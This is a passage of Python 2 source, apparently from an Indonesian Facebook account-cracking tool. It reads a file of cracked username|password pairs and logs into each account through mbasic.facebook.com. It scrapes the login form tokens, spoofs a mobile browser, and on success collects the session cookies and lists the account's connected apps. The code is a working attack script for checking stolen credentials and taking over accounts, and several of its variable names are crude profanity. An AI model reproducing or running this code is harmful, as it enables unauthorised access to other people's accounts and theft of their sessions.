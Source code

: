   else:
    menu()

#-> Check Options
def cek_opsi():
  print("\n [*] input file (ex: CP/%s.txt)"%(tanggal))
  files = raw_input(" [?] nama file  : ")
  if files == "":
    menu()
  try:
    buka_baju = open(files, "r").readlines()
  except IOError:
    exit("\n [!] file name %s not available"%(files))
  print(" [+] total account  : \033[0;91m%s\033[0;97m"%(len(buka_baju)))
  print(" [*] in the process of checking the account....")
  for memek in buka_baju:
    kontol = memek.replace("\n","")
    titid  = kontol.split("|")
    print("\n [+] check account : \033[0;93m%s\033[0;97m"%(kontol.replace("  * --> ","")))
    try:
      check_in(titid[0].replace("  * --> ",""), titid[1])
    except requests.exceptions.ConnectionError:
      pass
  print("\n [!] account check done...")
  raw_input(" [+] pencet enter untuk kembali ke menu ")
  time.sleep(1)
  menu()

def check_in(user, pasw):
  mb = ("https://mbasic.facebook.com")
  ua = ("Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36")
  ses = requests.Session()
  #-> separator
  ses.headers.update({"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": mb,"content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": mb+"/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
  data = {}
  ged = parser(ses.get(mb+"/login/?next&ref=dbl&fl&refid=8", headers={"user-agent":ua}).text, "html.parser")
  fm = ged.find("form",{"method":"post"})
  list = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login","bi_xrwh"]
  for i in fm.find_all("input"):
    if i.get("name") in list:
      data.update({i.get("name"):i.get("value")})
    else:
      continue
  data.update({"email":user,"pass":pasw})
  run = parser(ses.post(mb+fm.get("action"), data=data, allow_redirects=True).text, "html.parser")
  if "c_user" in ses.cookies:
    kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
    run = parser(ses.get("https://free.facebook.com/settings/apps/tabbed/", cookies={"cookie":kuki}).text, "html.parser")
    xe = [re.findall("\<span.*?href=\".*?\">(.*?)<\/a><\/span>.*?\<div class=\".*?\">(.*?)<\/div>", str(td)) for td in run.find_all("td", {"aria-hidden":"false"})][2:]
    print(" [+] aplikasi terhubung ada : "+str(len(xe)))
    num = 0
    for _ in xe:
      num += 1
      print("   "+str(num)+" "+_[0][0]+", "+_[0][1])